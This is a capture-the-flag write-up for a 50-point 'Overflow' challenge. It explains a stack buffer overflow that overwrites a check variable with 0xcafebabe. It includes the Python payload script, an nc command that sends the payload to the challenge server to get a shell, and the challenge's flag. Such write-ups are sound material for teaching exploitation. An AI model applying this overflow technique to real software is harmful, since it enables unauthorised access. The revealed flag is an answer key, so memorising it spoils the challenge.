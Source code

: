 # Overflow

Points: 50

We can see that the `name` array is defined to have a length of 16 bytes. The
`check` variable is defined before it, and the problem was compiled without a
stack protector. This means that we can overflow `name` to set the value of
`check`.

We can write a small Python script to create the payload:

```python
c1 = "1234567890123456"
c3 = "\xbe\xba\xfe\xca" # Little endian byte ordering

load = c1 + c3

with open('load', 'w') as load_file:
    load_file.write(load)
```

This will create a string with 16 ASCII characters followed by 4-bytes that
equal `0xcafebabe`. Executing the python script saves the payload to a file
named `load`. We can then send this payload to the executable by doing `cat
load - | nc pwn.osucyber.club 13373`. After pressing enter, we now have access
to a shell. To get the flag, we can do `cat flag`, which reveals
`osuctf{expl01t1ng_5t4ck_l4y0ut}`
